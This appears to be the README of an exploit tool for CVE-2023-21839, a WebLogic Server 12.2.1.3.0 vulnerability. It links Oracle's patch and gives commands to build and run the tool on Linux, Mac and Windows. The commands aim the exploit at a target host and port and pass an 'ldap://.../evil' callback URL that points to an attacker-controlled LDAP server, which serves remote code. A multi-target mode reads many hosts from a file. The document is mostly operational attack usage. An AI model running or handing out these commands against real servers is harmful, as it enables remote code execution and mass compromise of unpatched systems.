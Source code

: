 # CVE-2023-21839

## fix method
https://www.oracle.com/security-alerts/cpujan2023.html

## affected versions
`WebLogic Server = 12.2.1.3.0`

## reproduce
1. Linux/Mac OS

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

2. Windows
```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

3. 多目标  
```shell
CVE-2023-21839.exe -file target.txt -ldap ldap://127.0.0.1:1389/evil

# target.txt 文件格式
 127.0.0.1:7001
```
